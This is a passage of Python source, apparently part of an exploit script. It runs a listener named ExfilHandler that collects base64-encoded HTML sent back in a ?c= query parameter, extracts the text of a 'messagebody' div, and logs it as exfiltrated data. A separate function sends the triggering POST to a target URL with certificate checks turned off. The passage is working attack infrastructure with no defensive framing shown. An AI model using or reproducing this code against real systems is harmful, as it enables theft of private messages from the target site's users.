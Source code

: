```python
            # maybe sent as query parameter ?c=<payload>
            qs = parse_qs(query)
            if "c" in qs:
                encoded = qs["c"][0]

        if encoded:
            # percent-decoding if needed
            encoded = unquote(encoded)
            # handle URL-safe base64 and padding
            try:
                # add missing padding
                padding = "=" * (-len(encoded) % 4)
                b = base64.b64decode(encoded + padding)
                decoded = b.decode("latin-1", errors="replace")
                logging.info("[+] Received encoded payload (%d bytes)", len(b))
                # parse html
                tree = html.fromstring(decoded)
                message_nodes = tree.xpath('//div[@id="messagebody"]')
                if message_nodes:
                    message_text = message_nodes[0].text_content().strip()
                    logging.info("[+] Extracted Message Body:\n%s", message_text)
                else:
                    logging.warning("[!] No div with id 'messagebody' found in decoded HTML.")
                    # optional: print decoded HTML for debugging
                    logging.debug("Decoded HTML:\n%s", decoded)
            except Exception as e:
                logging.exception("Failed to decode or parse payload: %s", e)
        else:
            logging.debug("[!] GET received but no /c= payload found: %s", self.path)

        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.end_headers()
        self.wfile.write(b"OK")

    def log_message(self, format, *args):
        # suppress default access logs (we use logging module)
        logging.debug(format % args)

def start_server(listen_ip: str, listen_port: int, stop_event: threading.Event):
    server = ThreadedHTTPServer((listen_ip, listen_port), ExfilHandler)
    logging.info("[+] Listening on %s:%d for exfiltrated data...", listen_ip, listen_port)
    # run server until stop_event is set
    while not stop_event.is_set():
        server.handle_request()
    logging.info("[+] Server stopping.")

# ---------- Send the POST ----------
def send_post(target_url: str, data: dict, headers: dict):
    s = requests.Session()
    try:
        logging.info("[*] Sending POST to %s ...", target_url)
        r = s.post(target_url, data=data, headers=headers, timeout=10, allow_redirects=True, verify=False)
        logging.info("[+] POST sent, status_code=%s", r.status_code)
    except requests.RequestException as e:
        logging.exception("POST failed: %s", e)

if __name__ == "__main__":
    stop_evt = threading.Event()
    server_thread = threading.Thread(
        target=start_server, args=(args.listen_ip, args.listen_port, stop_evt), daemon=True
    )
```